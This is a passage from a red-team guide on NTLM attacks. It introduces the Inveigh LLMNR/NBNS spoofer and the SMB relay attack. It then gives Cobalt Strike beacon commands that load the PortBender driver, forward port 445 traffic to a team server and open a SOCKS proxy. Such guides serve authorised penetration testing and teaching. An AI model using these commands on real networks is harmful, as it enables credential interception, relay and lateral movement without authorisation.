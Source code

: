 It is possible to try to downgrade to NetNTLMv1 or to try to disable ESS.

![](<../../.gitbook/assets/poison (1) (1) (1).jpg>)

### Inveigh - C#/PowerShell Responder

> Inveigh is a PowerShell ADIDNS/LLMNR/NBNS/mDNS/DNS spoofer and man-in-the-middle tool designed to assist penetration testers/red teamers that find themselves limited to a Windows system.

[**Inveigh** ](https://github.com/Kevin-Robertson/Inveigh)was a PowerShell script, now it's a C# binary that has the same main features as Responder. There is a [**wiki**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters) \*\*\*\* that lists all parameters and usage instructions.\
Another version can be found in [**InveighZero**](https://github.com/Kevin-Robertson/InveighZero).

![](../../.gitbook/assets/45662029-1b5e6300-bace-11e8-8180-32f8d377d48b.png)

Or run it with more options:

```powershell
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

Or run the C# version:

```bash
Inveigh.exe
```

## NTLM Relay Attack

This attack relays **SMB authentication sessions** on an internal network to a **target machine**. If the authentication **session is successful**, it will automatically drop you into a **system** **shell**. Please, note that the relayed authentication must be from a **user which has Local Admin access to the relayed** host and **SMB signing must be disabled**.

### 445 forward and tunneling

{% hint style="warning" %}
If you can **introduce a machine inside the network** you can use any of the **tools** of the following section to perform a relay attack and you don't need to care about this.
{% endhint %}

However, in red teams this isn't the case, in red teams you usually will need to **forward the traffic of the port 445 of a Windows machine to your machine** executing any of the following tools and then r**oute back the traffic of that tool through a proxy** to reach the machine to attack inside the internal.

The tool [**PortBender**](https://github.com/praetorian-inc/PortBender) \*\*\*\* is a driver to **redirect** traffic destined for port **445 to another port** (e.g. 8445) that **we can bind**. It **requires local admin** access in order for the driver to be loaded. It makes sense to use `cd C:\Windows\System32\drivers` since this is where most Windows drivers go.

```bash
Cobalt Strike -> Script Manager -> Load (Select from the filesystem PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Go to drivers dir
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Forward traffic to 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Send traffic to port 8445 to Team Server
beacon> socks 1080 # Socks proxy in port 1080 to attack host in the internal network from the Team Server

# To kill
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```
